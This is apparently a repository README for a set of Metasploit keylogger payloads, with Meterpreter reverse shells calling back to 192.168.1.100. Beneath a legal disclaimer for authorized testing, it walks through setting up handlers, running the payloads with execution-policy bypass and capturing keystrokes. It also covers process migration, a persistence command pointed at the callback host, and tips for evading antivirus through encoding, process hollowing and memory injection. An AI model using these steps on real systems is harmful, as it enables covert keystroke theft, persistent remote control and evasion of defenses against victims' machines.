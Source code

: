 # Metasploit Keylogger Test Payloads

This directory contains various test payloads generated using Metasploit Framework for keylogging capabilities testing in authorized penetration testing scenarios.

## ⚠️ LEGAL DISCLAIMER
These payloads are for **AUTHORIZED TESTING ONLY**. Only use these tools in:
- Your own lab environments
- Systems you own or have explicit written permission to test
- Authorized penetration testing engagements
- Educational purposes in controlled environments

Unauthorized use of keyloggers is illegal and unethical.

## Generated Payloads

### 1. Windows x64 TCP Reverse Shell
- **File:** `windows_keylogger_test.exe`
- **Payload:** `windows/x64/meterpreter/reverse_tcp`
- **LHOST:** 192.168.1.100
- **LPORT:** 4444
- **Size:** 7,168 bytes
- **Format:** Windows PE executable

### 2. Python Cross-Platform
- **File:** `python_keylogger_test.py`
- **Payload:** `python/meterpreter/reverse_tcp`
- **LHOST:** 192.168.1.100
- **LPORT:** 4445
- **Size:** 436 bytes
- **Format:** Raw Python script

### 3. Windows HTTPS Reverse Shell
- **File:** `windows_https_keylogger.exe`
- **Payload:** `windows/meterpreter/reverse_https`
- **LHOST:** 192.168.1.100
- **LPORT:** 443
- **Size:** 73,802 bytes
- **Format:** Windows PE executable (x86)

### 4. PowerShell Payload
- **File:** `powershell_keylogger.ps1`
- **Payload:** `windows/x64/meterpreter/reverse_tcp`
- **LHOST:** 127.0.0.1
- **LPORT:** 8080
- **Size:** 2,500 bytes
- **Format:** PowerShell script

## Usage Instructions

### 1. Setup Handlers
Use the provided resource script to set up multiple handlers:
```bash
msfconsole -r handler_setup.rc
```

Or manually set up handlers:
```bash
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.100
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j
```

### 2. Execute Payloads
- **Windows EXE:** Run directly on target Windows system
- **Python:** Execute with `python python_keylogger_test.py`
- **PowerShell:** Run with `powershell -ExecutionPolicy Bypass -File powershell_keylogger.ps1`

### 3. Keylogger Commands
Once you have a Meterpreter session:
```
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

See `keylogger_commands.txt` for complete command reference.

## Testing Recommendations

1. **Lab Environment:** Always test in isolated lab environments
2. **Network Isolation:** Use isolated networks to prevent accidental exposure
3. **Antivirus Testing:** Test detection rates with various AV solutions
4. **Process Migration:** Test stealth capabilities with process migration
5. **Persistence:** Evaluate persistence mechanisms in controlled environments

## Files in This Directory

- `windows_keylogger_test.exe` - Windows x64 TCP reverse shell
- `python_keylogger_test.py` - Python cross-platform payload  
- `windows_https_keylogger.exe` - Windows HTTPS reverse shell
- `powershell_keylogger.ps1` - PowerShell-based payload
- `handler_setup.rc` - Metasploit resource script for handlers
- `keylogger_commands.txt` - Keylogger command reference
- `README.md` - This documentation file

## Advanced Usage

### Process Migration
```
meterpreter > ps
meterpreter > migrate <PID>
```

### Post-Exploitation Module
```
meterpreter > run post/windows/capture/keylog_recorder
```

### Persistence
```
meterpreter > run persistence -X -i 5 -p 4444 -r 192.168.1.100
```

## Detection Evasion

1. **Encoding:** Consider using encoders with msfvenom (`-e` option)
2. **Process Hollowing:** Migrate to legitimate processes
3. **Memory Injection:** Use in-memory payloads when possible
4. **Custom Templates:** Use custom executable templates (`-x` option)

## Cleanup

Remember to properly clean up test environments:
1. Remove payload files from target systems
2. Clear any persistence mechanisms installed
3. Reset test systems to clean states
4. Document any changes made during testing

---
**Generated on:** $(date)
**Kali Linux Version:** $(cat /etc/debian_version)
**Metasploit Version:** $(msfconsole -v | head -1)